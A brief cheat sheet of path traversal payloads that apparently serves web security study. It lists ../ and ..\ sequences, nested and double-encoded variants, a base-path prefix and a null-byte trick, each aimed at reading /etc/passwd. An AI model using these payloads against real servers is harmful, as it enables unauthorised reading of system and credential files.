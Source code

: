 ## File path traversal, Directory traversal

Step up multiple levels

On Unix/linux ../../

On Windows both ../ and ..\

Absolute path
/etc/passwd

Nested traversal sequences
....// or ....\/

URL decode or double decode
..%252f..%252f..%252fetc/passwd

Incude required base path
/var/www/images/../../../etc/passwd

Null byte to terminate stirng
../../../etc/passwd%00.png

